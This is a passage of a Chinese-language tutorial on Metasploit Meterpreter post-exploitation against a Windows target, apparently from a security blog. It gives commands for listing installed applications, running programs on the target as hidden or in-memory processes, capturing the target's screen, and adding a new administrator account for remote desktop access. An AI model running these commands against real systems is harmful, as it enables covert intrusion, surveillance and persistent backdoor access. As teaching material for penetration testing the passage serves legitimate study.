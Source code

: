 ### **7.8 获取用户密码**

参考链接：https://blog.csdn.net/weixin_45588247/article/details/119519411?spm=1001.2014.3001.5501

### **7.9 运行程序：**

先查看目标主机安装了哪些应用：

```apl
run post/windows/gather/enum_applications 
```

在meterpreter_shell命令行执行目标系统中的应用程序：

```apl
#execute命令用法：
execute [参数] -f 指定的可执行文件

-f：指定可执行文件
-H：创建一个隐藏进程
-a：传递给命令的参数
-i：跟进程进行交互
-m：从内存中执行
-t：使用当前伪造的线程令牌运行进程
-s：在给定会话中执行进程
```

![image-20250408165109773](https://gitee.com/ljh00928/csdn/raw/master/img/b5ecd34eccb69e76f2bc91ed33f9428d.png)

### **7.11 屏幕截图**

1、截图目标主机屏幕，可以看到，图片被保存到了`/root/桌面/`目录下

```bash
screenshot           #截图目标主机屏幕
```

![image-20250408165236346](https://gitee.com/ljh00928/csdn/raw/master/img/ead1c61688e3eaad5304cf609f84ce54.png)

### **7.12 创建一个新账号：**

先查看目标主机有哪些用户：

```apl
run post/windows/gather/enum_logged_on_users 
```

在目标系统中创建一个新的用户账号的方法一：

注：这个命令会创建用户，并把他添加到 Administrators 组中，这样该用户就拥有远程桌面的权限了。

```apl
run getgui -u 用户 -p 密码
-u: 指定用户
-p: 指定密码
```
